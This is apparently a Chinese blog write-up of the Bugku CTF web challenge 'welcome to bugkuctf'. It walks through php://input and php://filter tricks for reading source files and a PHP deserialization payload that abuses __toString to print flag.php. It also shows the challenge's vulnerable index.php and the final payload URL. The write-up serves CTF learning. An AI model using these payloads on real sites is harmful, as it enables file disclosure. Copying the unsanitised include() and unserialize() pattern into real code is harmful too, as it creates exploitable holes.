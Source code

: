 ```yaml
---
title: 【Bugku CTF】 Web —— welcome to bugkuctf
copyright: true
date: 2018-01-03 22:40:23
tags: [bugku,CTF,writeup,audit,php]
categories: [InfoSec,Web]
---
```


# 0x00 前言

此题运用了许多 PHP 技巧，解题思路惊艳，特此想分享一下思考过程。与其说此题是 Web 题，不如说是道 PHP 技巧题，难度中等，要求有**扎实的 PHP 基础**。

涉及到的技巧有 **PHP 伪协议、魔术方法、对象的序列化与反序列化**等，相关链接如下：

- 题目链接：[http://123.206.31.85/challenges#welcome to bugkuctf](http://123.206.31.85/challenges#welcome%20to%20bugkuctf)
- 解题链接：[http://120.24.86.145:8006/test1/](http://120.24.86.145:8006/test1/)

<!-- more -->

![question](http://oyhh4m1mt.bkt.clouddn.com/Bugku_CTF_Web_welcome_to_bugkuctf/question.png)

# 0x01 PHP 伪协议获取源码

点开链接，依然按常规套路只有一句话：**you are not the number of bugku !**，继续查看源码发现线索：

![hint](http://oyhh4m1mt.bkt.clouddn.com/Bugku_CTF_Web_welcome_to_bugkuctf/hint.png)

这里需要满足两点：

1. 构造合适的 URL 查询变量 `txt` 使得 PHP 变量 `$user` 满足 if 语句的条件
2. 令变量 `$file` 通过文件包含函数 `include()` 获取指定页面的源码

注意，此处还未涉及到查询变量 `password`。

## php://input

在 if 语句中，通过 `file_get_contents()` 函数读取变量 `$user` 的值后，再与字符串 `welcome to the bugkuctf` 比较。

因此可借助伪协议 [php://](http://php.net/manual/zh/wrappers.php.php) 中的 `php://input` 访问原始请求数据中的只读流。这里令 `$user = "php://input"`，并在请求主体中提交字符串 `welcome to the bugkuctf`。

## php://filter

在 `include($file); //hint.php` 语句中，相当于把变量 `$file` 的值在该语句的位置读入，结合后面的提示，应该是要把 hint.php 页面的源码以某种形式包含在当前页面内。

因此可利用 `php://filter` 以某种方式筛选过滤特定的数据流。这里令 `$file = php://filter/read=convert.base64-encode/resource=hint.php`，意思是**以 Base64 编码的方式过滤出 hint.php 页面的源码**，也可以把它理解为一个具有 URI 形式的特殊函数，该函数能把 hint.php 源码以 Base64 编码的方式读入。

根据以上两种 PHP 伪协议的分析，构造出以下 payload 即得 hint.php 源码的 Base64 编码:

![get_source](http://oyhh4m1mt.bkt.clouddn.com/Bugku_CTF_Web_welcome_to_bugkuctf/get_source.png)

解码后得到 hint.php 源码：

``` php
<?php  
  
class Flag{//flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
			echo "<br>";
		return ("good");
        }  
    }  
}  
?>  
```

根据注释发现了藏 flag 的页面，再次照葫芦画瓢去偷看 flag.php 源码：

![flag_fail](http://oyhh4m1mt.bkt.clouddn.com/Bugku_CTF_Web_welcome_to_bugkuctf/flag_fail.png)

...果然没那么简单，唔，卡住了，怎么办？

别忘了还有主页面啊！**利用主页面的功能也能读取自身的源码**，这一点很容易被遗忘，所以这次很顺利就获得了 index.php 的源码（注意，路径末尾不带 php 文件的 URL `http://120.24.86.145:8006/test1/`，一般默认就是访问 `http://120.24.86.145:8006/test1/index.php`）：

``` php
<?php  
$txt = $_GET["txt"];  
$file = $_GET["file"];  
$password = $_GET["password"];  
  
if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){  
    echo "hello friend!<br>";  
    if(preg_match("/flag/",$file)){ 
		echo "不能现在就给你flag哦";
        exit();  
    }else{  
        include($file);   
        $password = unserialize($password);  
        echo $password;  
    }  
}else{  
    echo "you are not the number of bugku ! ";  
}  
  
?>  
  
<!--  
$user = $_GET["txt"];  
$file = $_GET["file"];  
$pass = $_GET["password"];  
  
if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){  
    echo "hello admin!<br>";  
    include($file); //hint.php  
}else{  
    echo "you are not admin ! ";  
}  
 -->  
```

注意到第 8 行将 `$file` 变量中的 `flag` 字符串过滤了，印证了前面的结果。到此，我们顺利地将此题变成一道 PHP 白盒审计题了，现在才是此题最有意思的地方，如何利用已知的 hint.php 与 index.php 的源码去获取 flag.php 的内容？请继续往下看。

# 0x02 序列化构造 payload

要理清 hint.php 与 index.php 之间的关系，首先要理解 hint.php 中的 `__tostring()` 函数是何方神圣。

## 魔术方法 __toString()

「写在前面」：PHP 中变量与方法的命名一般遵循**小驼峰式命名法（Lower Camel Case）**，类的命名一般遵循**大驼峰式命名法（Upper Camel Case）**，也称**帕斯卡命名法（Pascal Case）**，并且**普通变量、超级全局变量、常量、数组索引等区分大小写**，而**函数名、方法名、类名、魔术变量等不区分大小写**，但最好使用与定义一样的大小写名字。详情可参考：

> [驼峰式大小写](https://zh.wikipedia.org/wiki/%E9%A7%9D%E5%B3%B0%E5%BC%8F%E5%A4%A7%E5%B0%8F%E5%AF%AB)
> [PHP命名大小写敏感规则](https://www.cnblogs.com/daipianpian/p/5721377.html)

因此看到此魔术方法定义为 `__toString()`，在源码中却是 `__tostring()` 就不足为奇了。

**魔术方法 [__toString()](http://php.net/manual/zh/language.oop5.magic.php#object.tostring)** 定义在类中，在该类的对象被当成字符串打印时执行，并且返回一个字符串，否则出现报错。

因此在 hint.php 中，当 `Flag` 类的对象被打印时，将获取 `$file` 变量（注意此处的 `$file` 与 index.php 中的不同）中文件的内容并输出，最后返回字符串 `good`。

## 对象的序列化

再来看看 index.php 的 11-15 行，满足了上面所有 if 语句的条件后，先包含变量 `$file`，再反序列化变量 `$password` 后输出。此段代码是本题的核心，理解了就能找到 index.php 与 hint.php 之间的联系，从而构造出 payload。

**核心思想如下：先用 `include()` 函数包含 hint.php，从而引入 `Flag` 类；再将该类对象的序列化字符串赋值给 `$passsword`，且令对象的成员变量 `$file = flag.php`， 所以在反序列化后得到上述对象；最后用 `echo` 打印该对象，从而触发 `__toString()` 函数，输出 flag.php 的值。**

通过以下代码可获得成员变量 `$file = flag.php` 的 `Flag` 对象的序列化字符串：`O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} `

``` php
<?php 
class Flag{//flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("good");
        }  
    }  
}  
$f = new Flag();
$f->file = 'flag.php';
echo serialize($f);
?> 
```

根据以上所有的分析，可以将 payload 总结如下：

**`http://120.24.86.145:8006/test1/?txt=php://input&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`**

最后别忘了在请求主体中提交字符串 `welcome to the bugkuctf` 喔，提交后得到 flag：

![flag](http://oyhh4m1mt.bkt.clouddn.com/Bugku_CTF_Web_welcome_to_bugkuctf/flag.png)

若有不足或错误之处劳烦指出，欢迎有疑问的朋友前来留言讨论。